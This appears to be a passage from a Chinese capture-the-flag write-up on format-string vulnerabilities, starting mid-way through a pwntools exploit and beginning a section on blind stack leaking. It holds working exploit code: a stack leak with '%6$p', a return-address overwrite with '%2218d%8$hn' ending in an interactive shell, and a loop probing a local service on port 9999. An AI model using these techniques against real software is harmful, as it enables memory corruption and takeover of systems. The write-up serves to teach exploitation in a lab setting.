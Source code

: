 ```bash

p.sendline('%6$p')
p.recvuntil(">")

p.sendline("1")
p.recvuntil('\n')
tmp=p.recvuntil('\n')


ret_addr=int(tmp.decode(),16)-0x38
#leak('ret_addr',ret_addr)

p.sendline('2')
p.recv()
p.sendline(p64(ret_addr))
p.recv()
p.sendline('%2218d%8$hn')

p.recv()
p.sendline('1')
p.recv()

p.interactive()
```

[![](assets/1701612281-95e35e3904f4eff623ad5fd1782a959e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224018-0450253e-2579-1.png)

#### fmstr5

##### 盲打泄露栈

部署好环境之后，在自己本地 9999 端口起环境，尝试直接读取地址，

[![](assets/1701612281-a99d4b917b52313233cebcbfbbd8211e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224029-0ab558f4-2579-1.png)

显然是存在格式化字符串漏洞的，直接写一个循环

```bash
from pwn import *
context.log_level = 'error'

def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print(p64(int(data.deocde(), 16)))
    sh.close()
i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1
```
